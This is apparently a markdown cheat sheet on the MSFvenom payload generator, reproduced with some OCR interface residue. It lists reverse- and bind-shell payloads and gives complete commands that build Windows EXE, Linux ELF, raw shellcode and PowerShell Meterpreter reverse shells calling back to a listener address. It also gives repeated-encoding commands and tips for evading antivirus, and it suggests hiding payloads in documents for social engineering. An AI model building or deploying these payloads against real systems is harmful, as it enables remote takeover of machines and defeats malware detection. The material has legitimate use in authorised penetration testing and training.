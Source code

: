 # Exploitation: Msfvenom

## Overview
MSFvenom is a versatile payload generator and encoder included in the Metasploit Framework. It allows penetration testers to craft payloads for different platforms, customize payload behavior, and encode or obfuscate them to evade detection.

MSFvenom combines `msfpayload` and `msfencode` into a single tool.

---

## Key Features
- Generate payloads for multiple platforms (Windows, Linux, macOS, Android)
- Encode and obfuscate payloads to bypass antivirus and detection
- Supports multiple formats: `exe`, `elf`, `apk`, `raw`, `python`, `c`, `dll`, etc.
- Flexible configuration options: IP, port, payload type, encoder, iteration
- Integrates easily with Metasploit for automated exploitation

---

## Payload Types

### Windows
- `windows/meterpreter/reverse_tcp` – Meterpreter reverse shell
- `windows/shell/reverse_tcp` – Classic command shell
- `windows/meterpreter/bind_tcp` – Meterpreter bind shell
- `windows/adduser` – Adds a new user to the target system

### Linux
- `linux/x86/meterpreter/reverse_tcp` – Meterpreter reverse shell
- `linux/x86/shell/reverse_tcp` – Standard shell reverse TCP
- `linux/x86/meterpreter/bind_tcp` – Meterpreter bind shell

### Android
- `android/meterpreter/reverse_tcp` – Reverse shell payload
- `android/meterpreter/reverse_http` – Reverse HTTP Meterpreter shell

---

## Encoders and Obfuscation

### Common Encoders
- `x86/shikata_ga_nai` – Polymorphic encoder for x86 payloads (Windows/Linux)
- `x86/countdown` – Simple polymorphic encoder
- `cmd/echo` – Encode payload to safe ASCII commands
- `generic/none` – No encoding (raw payload)

### Obfuscation Tips
- Multiple iterations of encoding can help bypass signature-based antivirus detection:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
Use format options like c, python, or powershell to embed payload in scripts.

Combine with obfuscation tools or packers for additional evasion.

Formats
exe – Windows executable

elf – Linux ELF binary

apk – Android package

raw – Raw payload for shellcode injection

python, perl, c, ruby – Scriptable payloads

dll – Windows library payloads

powershell – Payload suitable for PowerShell execution

Installation
bash
Copiar
Editar
sudo apt update
sudo apt install metasploit-framework

# Verify installation
msfvenom --help
Basic Usage
Windows Example
bash
Copiar
Editar
# Reverse TCP payload for Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe

# Encoded payload to bypass AV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
Linux Example
bash
Copiar
Editar
# Reverse TCP payload for Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf

# Raw shellcode for injection
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.raw
PowerShell / Script Example
bash
Copiar
Editar
# Generate PowerShell payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f powershell
Tips
Always test payloads in a controlled lab environment.

Use multi/handler in Metasploit to receive reverse shells.

Multiple encodings can help bypass antivirus but over-encoding can break payloads.

Embed payloads in scripts or documents for social engineering exercises.

Keep MSFvenom and Metasploit updated to use latest exploits and payloads.

References
Metasploit Framework: https://www.metasploit.com

MSFvenom Usage Guide: https://www.offensive-security.com/metasploit-unleashed/msfvenom/